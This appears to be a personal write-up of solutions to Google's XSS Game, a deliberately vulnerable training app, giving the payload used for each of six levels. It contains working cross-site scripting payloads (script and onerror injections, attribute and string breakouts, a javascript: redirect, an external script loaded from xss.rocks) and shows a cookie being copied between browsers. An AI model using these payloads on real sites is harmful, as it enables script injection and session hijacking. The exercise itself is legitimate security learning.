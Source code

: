 # Notes on Google's [XSS Game][1] Web App

## Level 1
Level 1 can be exploited by injecting XSS code into either the form field or the URL. Both of these examples work if you paste them into the form field and press the Search button:

```html
<img src=x onerror="alert('xss')">
<script>alert("xss");</script>
```

Both of the above examples also work if you inject them into the URL and press the Go button (which is part of the fake browser). The only limitation I found was that code injected into the URL will not work if it has a semicolon. In the second example above, you could just omit the semicolon, since it is only a one-line script.

But the attack does work through the URL if you just URL-encode the semicolon as `%3B`. Note that you'll have to prepend your attack code with: `?query=`. So you're concatenating three separate pieces:
1. `https://xss-game.appspot.com/level1/frame`
2. `?query=`
3. `<script>alert("xss")%3B</script>`

The full URL is now:
```code
https://xss-game.appspot.com/level1/frame?query=<script>alert("xss")%3B</script>
```



## Level 2

```
" onerror=alert('xss')/> <img src="cloud1.jpg">
```

## Level 3
To get past Level 3 I had to use Safari (10.0.3) because Firefox (51.0.1) and Chrome (55.0.2883.95) both prevented the injection of a space, encoded or not, after the single quote. Here is the full URL I used to successfully pass Level 3 with Safari:
```
https://xss-game.appspot.com/level3/frame' onerror="alert('xss')"
```
But I wanted to keep working with Firefox. So I stole Safari's cookie called "level3".
I configured Safari to use the Burp proxy, then copied the name and value of the third cookie:
```
level1=f148716ef4ed1ba0f192cde4618f8dc5; level2=b5e530302374aa71cc3028c810b63641; level3=d5ce029d0680b3816a349da0d055fcfa
```
Here's how to set a new cookie in FF or Chrome using the console in dev tools:
```javascript
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa";
```
Now you can advance to level 4 in FF or Chrome.

## Level 4

https://xss-game.appspot.com/level4

For Level 4 I had to look up somebody else's answer and play with it because it was not working as they described. Eventually I found that, in all three browsers, it only worked if you input it into the input field. It would not work on the URL.
```
');alert();var b=('
```

## Level 5
I got through Level 5 with this URL:
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```
But clicking the Go button next to the URL did not work. I had to actually click the "Next >>" button. That button, if you mouse over it, showed that it's target was:
```
javascript:alert(1)
```

By me having edited the URL manually, that button's href value had changed to my input.


## Level 6
For Level 6 I had to look up the answer. It turns out that the regex was not case sensitive, so this is the successful URL:
```
https://xss-game.appspot.com/level6/frame#HTTPS://xss.rocks/xss.js
```
[1]: https://xss-game.appspot.com/
